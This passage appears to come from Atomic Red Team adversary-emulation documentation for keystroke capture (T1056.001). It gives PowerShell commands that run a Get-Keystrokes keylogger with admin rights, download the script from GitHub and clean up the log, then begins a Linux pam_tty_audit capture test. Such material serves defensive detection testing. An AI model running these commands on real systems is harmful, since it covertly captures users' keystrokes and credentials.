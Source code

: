 Upon successful execution, Powershell will execute `Get-Keystrokes.ps1` and output to key.log.

**Supported Platforms:** Windows


**auto_generated_guid:** d9b633ca-8efb-45e6-b838-70f595c6ae26





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| filepath | Name of the local file, include path. | path | $env:TEMP&#92;key.log|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
&"$PathToAtomicsFolder\T1056.001\src\Get-Keystrokes.ps1" -LogPath #{filepath}
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\key.log -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Get-Keystrokes PowerShell script must exist on disk at PathToAtomicsFolder\T1056.001\src\Get-Keystrokes.ps1
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\T1056.001\src\Get-Keystrokes.ps1") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -ItemType Directory (Split-Path "PathToAtomicsFolder\T1056.001\src\Get-Keystrokes.ps1") -Force | Out-Null
Invoke-WebRequest https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1056.001/src/Get-Keystrokes.ps1 -OutFile "PathToAtomicsFolder\T1056.001\src\Get-Keystrokes.ps1"
```




<br/>
<br/>

## Atomic Test #2 - Living off the land Terminal Input Capture on Linux with pam.d
Pluggable Access Module, which is present on all modern Linux systems, generally contains a library called pam_tty_audit.so which logs all keystrokes for the selected users and sends it to audit.log.  All terminal activity on any new logins would then be archived and readable by an adversary with elevated privledges.
